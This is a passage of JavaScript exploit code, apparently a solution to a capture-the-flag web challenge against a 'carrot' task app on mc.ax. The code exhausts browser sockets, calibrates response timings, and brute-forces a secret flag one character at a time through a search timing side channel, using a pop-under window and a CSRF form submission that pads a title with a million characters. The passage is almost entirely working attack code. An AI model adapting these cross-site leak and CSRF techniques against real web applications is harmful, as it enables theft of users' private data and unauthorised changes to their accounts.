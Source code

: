 ``` html
    }
    return false;
}

const calibrate = async () => {
    return new Promise(async (r) => {
        // slow
        let url1 = `https://carrot-${INSTANCE}.mc.ax/tasks?search=dice{`
        let t1 = await timeit(url1, WINBG)
        console.log(`slow:${t1}`)
        // fast
        let url2 = `https://carrot-${INSTANCE}.mc.ax/tasks?search=XXXXXXXXXX`
        let t2 = await timeit(url2, WINBG)
        console.log(`fast:${t2}`)
        return r((t1 + t2) / 2)
    });

}

const exploit = async(flag = '') => {
    console.log('Starting')
    // dont go to fast plz :) 
    console.log(`waiting 3s`)
    await sleep(3000)
    // exaust sockets
    await exhaust_sockets()
    await sleep(2000)
    LOG = `Calibrating`
    TIMELIMIT = await calibrate()
    LOG = `TIMELIMIT:${TIMELIMIT}`
    console.log(`timelimit:${TIMELIMIT}`)
    await sleep(2000)
    let last;
    while (true) {
        last = await brute(flag);
        if (last === false) {
            return flag;
        } 
        else {
            flag += last;
            output.innerText = flag;
            if(last === '}'){
                return flag
            }
        }
    }
}

const popunder = () => {
    if (window.opener) {
            WINBG = window.opener
    } 
    else {
        WINBG = window.open(location.href, target="_blank")
        location = `about:blank`
    }
}

const csrf = async () => {
    x.action = `https://carrot-${INSTANCE}.mc.ax/edit/0`
    x.title.value = "A".repeat(1000000)
    x.submit()
}
```
